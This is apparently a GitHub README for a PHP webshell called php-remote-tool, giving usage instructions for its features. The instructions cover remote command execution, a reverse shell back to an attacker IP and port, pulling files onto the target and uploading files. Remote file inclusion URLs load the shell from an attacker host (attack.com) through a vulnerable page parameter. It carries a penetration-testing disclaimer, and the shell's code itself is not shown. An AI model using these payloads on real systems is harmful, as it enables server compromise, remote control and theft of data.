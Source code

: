 # PHP Remote AND Local Tool
Author: Yavuz Sahbaz
GitHub: https://github.com/YavuzSahbaz

## Overview
php-remote-tool is a PHP webshell script that enables remote command execution, reverse shell initiation, file downloading, and file uploading on a target system running a web server with PHP support. This script is designed for use during penetration testing exercises or system administration tasks where you have permission to perform these actions on the target system. Unauthorized use may be illegal and unethical.

## Usage
Upload the php-remote-tool script to the target web server.
Access the script through a web browser or a tool like curl or wget.
Execute commands
To execute a command on the target system, use the following URL format:

```
LOCAL: http://target.com/path/cmd.php?cmd=[COMMAND]
REMOTE: http://target.com/index.php?page=http://attack.com/cmd.php&cmd=[COMMAND]
Replace [COMMAND] with the command you want to execute on the target system.
```
## Initiate reverse shell
To initiate a reverse shell to your system, use the following URL format:

```

LOCAL: http://target.com/path/cmd.php?revshell=[ATTACKER_IP]:[ATTACKER_PORT]
REMOTE: http://target.com/index.php?page=http://attack.com/cmd.php&revshell=[ATTACKER_IP]:[ATTACKER_PORT]
Replace [ATTACKER_IP] with your IP address and [ATTACKER_PORT] with the port you want to use for the reverse shell connection. 
Make sure to set up a listener on your system to receive the connection.
```
## Download a file
To download a file from a URL and save it on the target system, use the following URL format:

```

LOCAL: http://target.com/path/cmd.php?download=[URL]&filename=[FILENAME]
REMOTE: http://target.com/index.php?page=http://attack.com/cmd.php&download=[URL]&filename=[FILENAME]
Replace [URL] with the URL of the file you want to download, 
and [FILENAME] with the desired name for the saved file on the target system.
```
## Upload a file
To upload a file to the target system, use the following URL format:
```

LOCAL: http://target.com/path/cmd.php?upload&filepath=[FILE_PATH]
REMOTE: http://target.com/index.php?page=http://attack.com/cmd.php&upload&filepath=[FILE_PATH]
Replace [FILE_PATH] with the desired file path for the uploaded file on the target system. 
Use an HTTP POST request to send the file with the Content-Type 
header set to multipart/form-data and the file parameter named "file".
```
## Disclaimer
This PHP webshell script is intended for educational purposes and ethical use only. Unauthorized use of this script may be illegal and unethical. Always make sure you have permission to perform any action on the target system and follow ethical hacking principles and guidelines. The author and any contributors are not responsible for any damage caused by unauthorized use of this script.
